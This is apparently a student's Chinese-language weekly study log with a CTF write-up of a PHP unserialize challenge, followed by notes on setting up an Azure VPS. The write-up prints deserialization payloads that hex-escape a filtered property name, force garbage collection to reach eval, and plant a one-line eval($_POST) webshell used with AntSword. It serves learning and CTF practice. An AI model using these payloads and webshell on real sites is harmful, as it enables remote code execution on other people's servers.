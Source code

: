 <a name="WZyeA"></a>
# 本周内容：继续学习php
1.GC垃圾回收<br />2.记录一下VPS的搭建
<a name="TocPQ"></a>
# 成果展示：
<a name="ajZrg"></a>
## 1.remove
是一道GC垃圾回收机制题目
```php
<?php
  highlight_file(__FILE__);
class syc{
  public $lover;
  public function __destruct()
  {
    eval($this->lover);
  }
}

if(isset($_GET['web'])){
  if(!preg_match('/lover/i',$_GET['web'])){
    $a=unserialize($_GET['web']);
    throw new Error("快来玩快来玩~");
  }
  else{
    echo("nonono");
  }
}
  ?>
```
首先是lover的绕过：<br />使用S的类型后面加十六进制，把lover换成16进制即可<br />这道题有很多种解法
<a name="Ue9ro"></a>
### 执行函数
<a name="FrL7y"></a>
#### 解法1：造成错误触发垃圾回收
正常构造pop链：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698755880916-3a8098c6-8c38-40c3-a4eb-39c46712e578.png#averageHue=%23232222&clientId=u72760c9e-7a6b-4&from=paste&height=745&id=uaa57878c&originHeight=745&originWidth=1899&originalType=binary&ratio=1&rotation=0&showTitle=false&size=152876&status=done&style=none&taskId=u8a275e31-b39a-4cd7-9082-af9b92ed38f&title=&width=1899)<br />替换lover：
```php
?web=O:3:"syc":1:{S:5:"\6c\6f\76\65\72";s:16:"eval($_POST[1]);";}
```
然后删掉最后一个}造成错误<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698756002396-3d839af1-7a2d-4710-9dca-8f26b4a4c247.png#averageHue=%23af895a&clientId=u72760c9e-7a6b-4&from=paste&height=431&id=u51e23b79&originHeight=1408&originWidth=2568&originalType=binary&ratio=1&rotation=0&showTitle=false&size=419666&status=done&style=none&taskId=uee16d996-9da3-4944-bec1-91de8d29c65&title=&width=786)<br />可以看到可以正常执行<br />同理，可以制造其他错误导致问题产生
```php
web=O:3:"syc":3:{S:5:"\6c\6f\76\65\72";s:16:"eval($_POST[1]);";}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698756204040-5f73ba77-214b-42f0-bd6f-af9622701ed0.png#averageHue=%23bd9562&clientId=u72760c9e-7a6b-4&from=paste&height=354&id=u1e877b73&originHeight=620&originWidth=2438&originalType=binary&ratio=1&rotation=0&showTitle=false&size=175141&status=done&style=none&taskId=ud6210ae5-a3d5-4475-af66-cc692167324&title=&width=1393.142857142857)<br />这个是制造了syc的参数数量的错误导致问题产生<br />同样可以导致gc产生
<a name="FhOdx"></a>
#### 解法2：返回null触发垃圾回收
![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698756559261-5011b784-de93-46ee-8ce9-ad4c32fc9cc6.png#averageHue=%23222221&clientId=u72760c9e-7a6b-4&from=paste&height=319&id=u61ebc264&originHeight=559&originWidth=1786&originalType=binary&ratio=1&rotation=0&showTitle=false&size=108443&status=done&style=none&taskId=ud724b70d-3c19-4c26-9af8-e47ae4e2b92&title=&width=1020.5714285714286)<br />这是使用了一个数组创造了一个null的键，两个索引一个指向对象一个指向null<br />这个也可以触发GC，需要把后面指向对象的索引改为指向null，这样我的理解是：垃圾处理程序认为是一个未被使用的参数，调用__destruct()，可以继续执行<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698756904659-3815ff0e-f11f-4113-8cd5-d142aee9854d.png#averageHue=%23c8a972&clientId=u72760c9e-7a6b-4&from=paste&height=289&id=ud3f5c4fa&originHeight=505&originWidth=2102&originalType=binary&ratio=1&rotation=0&showTitle=false&size=128143&status=done&style=none&taskId=u34155ce7-b75f-4ff7-af5a-c901c740777&title=&width=1201.142857142857)
<a name="bqSGj"></a>
### 绕过禁用函数
在phpinfo()中可以看到<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698757332519-5727baf9-964d-4640-819c-5b57dc29d040.png#averageHue=%23567c47&clientId=u72760c9e-7a6b-4&from=paste&height=38&id=u3d066e5c&originHeight=66&originWidth=1253&originalType=binary&ratio=1&rotation=0&showTitle=false&size=12768&status=done&style=none&taskId=u69e603c6-edfe-4db8-b3f1-de62fafa4eb&title=&width=716)<br />禁用了大多数能执行的函数<br />我们可以利用蚁剑<br />在传的pop链中构造一句话木马<br />因为原来的eval函数只能由pop链触发，蚁剑不支持，所以我们需要在lover的参数中再构造一次eval<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698757844943-edaa4599-50c3-4d98-8667-df2133d29755.png#averageHue=%23232222&clientId=u72760c9e-7a6b-4&from=paste&height=374&id=u8ede92d6&originHeight=655&originWidth=1425&originalType=binary&ratio=1&rotation=0&showTitle=false&size=108686&status=done&style=none&taskId=u4f469499-7f61-412d-989a-c82f2043f11&title=&width=814.2857142857143)<br />这里会报错，而且post并没有写进去，因为php把$_POST当成参数了，我们需要转义一下这个符号<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698757905651-994f67e6-fc41-4fe4-82e2-468072518f0e.png#averageHue=%23242323&clientId=u72760c9e-7a6b-4&from=paste&height=436&id=u2dd25b5d&originHeight=763&originWidth=1646&originalType=binary&ratio=1&rotation=0&showTitle=false&size=147412&status=done&style=none&taskId=u802a9b8e-20a6-4d01-a2e5-d705755fccb&title=&width=940.5714285714286)<br />这样就好了，把他换成十六进制就可以放在蚁剑里面了<br />但是在连蚁剑的时候又遇到了一些问题<br />就是蚁剑不能直接连接https<br />经过指点才知道http直接连接就可以<br />然后在蚁剑中发现flag，但是打开是空文件，但是这个文件是有大小的<br />所以就在终端中用base64打开<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698758769380-1a9156b5-d177-4c12-8975-87e68fb1a6eb.png#averageHue=%233f3a3a&clientId=u72760c9e-7a6b-4&from=paste&height=27&id=uacfd0ce3&originHeight=47&originWidth=318&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3874&status=done&style=none&taskId=u4d815fa4-6456-4df7-8d6b-b5de0311a57&title=&width=181.71428571428572)就可以读出来了
<a name="pbAyf"></a>
### 总结
在这道题中学了很多新东西<br />1.反序列化字符串的绕过，可以用S代替s，然后将字符串转换成16进制即可，16进制之间要用\分隔开<br />2.由于php的垃圾清除机制，所以在传输的pop链中有unset()，出现错误,或是对象为NULL时会触发__destuct()再次执行，并且会跳过throw new error，从而执行eval<br />3.蚁剑连接不能使用https，flag可能藏在文件的base64中<br />4.$后面的字符可能会被当成参数，需要用\转义
<a name="GBdPE"></a>
## 2.VPS搭建
厂商选择用azure的免费服务器<br />第一步：先去中信银行用熟练的话术办一张VISA卡<br />之前有FSU的edu邮箱，已经用完了，现在用VISA卡免费200刀和12月服务器搭<br />第二步：直接开服务器<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698936562158-69f421c6-34a3-4fbe-b399-361c376dac6d.png#averageHue=%23fcfcfb&clientId=u78f6855a-27f8-4&from=paste&height=805&id=uf8d98095&originHeight=1408&originWidth=2568&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=345241&status=done&style=none&taskId=u964a48f8-ec63-445e-9b96-e99141a790d&title=&width=1467.4285714285713)<br />开完服务器之后就是开nsg，配置动态ip，ddns之类的，绑定一个域名（买了十年的waterbucket.fun）<br />安装宝塔面板方便运维<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698936676229-5235ed17-b57b-45f6-bdb4-ff05f05713c3.png#averageHue=%23032759&clientId=u78f6855a-27f8-4&from=paste&height=422&id=u4d5e1d90&originHeight=739&originWidth=873&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=89932&status=done&style=none&taskId=ua475754d-9027-4b30-8142-7d3dd8b945d&title=&width=498.85714285714283)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698936750125-17587975-ab9d-4ee3-ba0f-6fe3bc2aba55.png#averageHue=%23fbf9f9&clientId=u78f6855a-27f8-4&from=paste&height=805&id=uc82983f4&originHeight=1408&originWidth=2568&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=289483&status=done&style=none&taskId=u286d8505-b497-4dff-b1bc-62fdad23a08&title=&width=1467.4285714285713)<br />关闭WAF，部署一下网站服务器，方便后面部署docker<br />azure唯一的缺点是延迟太大，没有国内服务器，但是他不限制出入口带宽是国内没有厂商比得上的（除了按量付费）<br />这个没什么踩坑的地方，因为之前玩VPS的时候都踩过坑：（现在就不用踩了<br />下一步是准备试着部署一下ctfd学学靶场的搭建
